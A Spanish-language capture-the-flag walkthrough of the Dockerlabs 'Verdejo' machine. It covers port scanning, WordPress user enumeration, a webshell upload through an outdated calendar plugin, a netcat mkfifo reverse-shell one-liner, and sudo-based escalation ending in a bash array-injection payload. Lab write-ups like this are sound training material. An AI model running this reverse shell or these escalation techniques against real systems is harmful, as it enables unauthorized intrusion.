

Hola otra vez, vamos a resolver otra máquina de [Dockerlabs](https://dockerlabs.es/#/), en este caso la máquina se llama Verdejo y está incluida en la categoría fácil de Dockerlabs de [El Pingüino de Mario](https://www.youtube.com/channel/UCGLfzfKRUsV6BzkrF1kJGsg).


---------------------------------------------------------------------------------------------------------------------------------------------------

Sin más que añadir vamos a ello, como siempre empezaremos por descargar la máquina y realizar su instalación, recordad que funcionan mediante docker por lo que estaremos creando un contenedor en nuestra máquina local en el que se almacenará la máquina víctima.


Empezaremos realizando un ping a la máquina para verificar su correcto funcionamiento, al hacerlo vemos que tiene un TTL de 64, lo que significa que la máquina objetivo usa un sistema operativo Linux.


Como vemos, la máquina funciona correctamente y podemos empezar con el proceso de enumeración de la misma, vamos a ello.

# Enumeración

Lo primero que haremos para enumerar esta máquina será realizar un escaneo básico de puertos para identificar cuáles están abiertos.

```sudo nmap -p- --min-rate 5000 172.18.0.2 -Pn -n -oN escaneo```


Sólo tenemos disponible el puerto 80 haciendo referencia a un servicio web, vamos a lanzar un escaneo más exhaustivo a este puerto en concreto para tratar de enumerar las versiones y lanzar unos scripts básicos de reconocimiento.

``sudo nmap -p 80 -sCV 172.18.0.2 -Pn -n -oN escaneoSC``


En este output podemos ver que dentro del puerto 80 encontraremos un Wordpress. Vamos a echarle un ojo.


Nada demasiado interesante por aquí, vamos a fuzzear en busca de directorios y archivos que no estén visibles en un primer contacto.


Gracias a este escaneo encontramos el panel de login de Wordpress, vamos a usar WPscan para tratar de enumerar los usuarios disponibles.


Parece que este escaneo encuentra dos usuarios que existen dentro del sistema, vamos a probarlos en el panel de login ya que Wordpress nos permite confirmar la existencia de los usuarios al tratar de iniciar sesión diciéndonos si existen o no.


Genial, confirmamos la existencia de ambos usuarios gracias a esta funcionalidad. Lanzamos un ataque de fuerza bruta al panel de login con hydra pero no da los resultados esperados por lo que tendremos que seguir enumerando.

Volviendo al fuzzeo que realizamos previamente vemos que se encontró un directorio llamado backups, vamos a ver qué encontramos en este.


Parece que hay un archivo comprimido, vamos a descargarlo a nuestra máquina local para ver su contenido.


Tenemos una contraseña que posiblemente sea válida para el usuario developer, vamos a tratar de usarla para hacer login en el panel de Wordpress.


Genial, conseguimos entrar con la contraseña encontrada, vamos a buscar la forma de escalar esto para conseguir un primer acceso al sistema.

# Explotación

Dando una vuelta por el dashboard nos encontramos con la pestaña de plugins y uno en concreto llama nuestra atención, además podemos ver su versión. Vale la pena investigar un poco acerca del mismo.


El plugin en concreto es Modern Events Calendar Lite y vamos a investigar un poco acerca del mismo ya que el escaneo con WPscan nos avisaba de que el mismo estaba desactualizado.



Bien, parece que esta versión en concreto permite la subida de archivos en PHP ya que el mismo no valida los archivos que se suben y podríamos subir una webshell sin que nada nos detuviese, vamos a intentar explotar esta vulnerabilidad para obtener nuestro acceso al sistema.


Muy bien, hemos conseguido explotar la vulnerabilidad y hemos subido una webshell en la ruta que se nos indica, vamos a acceder a ella para tratar de enviar la conexión a nuestra máquina atacante y de esta forma obtener una conexión más estable y cómoda.


Nos ponemos en escucha en nuestra máquina atacante y estamos listos para enviar la conexión.

``rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc IP PUERTO >/tmp/f``


Probamos varios payloads y el último de ellos funciona correctamente otorgándonos una shell directamente en nuestra máquina atacante permitiendo movernos de una forma mucho más cómoda.


# Post-Explotación

Una vez dentro de la máquina listamos los usuarios que están disponibles en el directorio home ya que son los que nos interesan para aumentar nuestros privilegios con el objetivo de lograr convertirnos en root. Probamos la contraseña que encontramos previamente con ambos por si diera la casualidad de que se reutilizasen las credenciales, no parece ser el caso.


Listamos nuestros permisos subo y parece que podemos usar el comando sind como el usuario rafa, vamos a investigar para saber cómo usar esto a nuestro favor para elevar privilegios.


Eso es, somos el usuario rafa y podemos enumerar de nuevo en busca de permisos que nos permitan seguir elevanto los privilegios.


El usuario rafa puede usar sudo como el usuario ruben para ejecutar el binario debugfs, volvamos a investigar para seguir escalando.


¡Bien! Conseguimos convertirnos en el usuario ruben, vamos a repetir de nuevo el proceso anterior.


Este usuario en concreto puede ejecutar un script que se encuentra en el directorio /opt, comprobamos que no tenemos permisos de escritura dentro del mismo por lo que tendremos que abusar de esto ejecutando el script tal y como está. Vamos a hacer una investigación para saber cómo podríamos hacer esto.


Tras una batalla contra el script y con la ayuda de la IA para comprender el mismo llego a la conclusión de que la forma de explotar esto sería comenzando la definición de un array en el que se incluya como contenido $(/bin/bash>&2) para ejecutar una shell y enviar la salida de error a la salida estándar para luego cerrar la definición de este array y añadir el número que necsitamos para que el script no genere un error de sintaxis inmediato, lo cual permitirá que nuestra shell se mantenga activa. 

Después de este episodio de combate para escalar privilegios logramos converirnos en root y obtenemos el control total sobre el sistema pudiendo dar por completada la máquina. Espero que os haya gustado mucho y nos vemos en la siguiente. :)


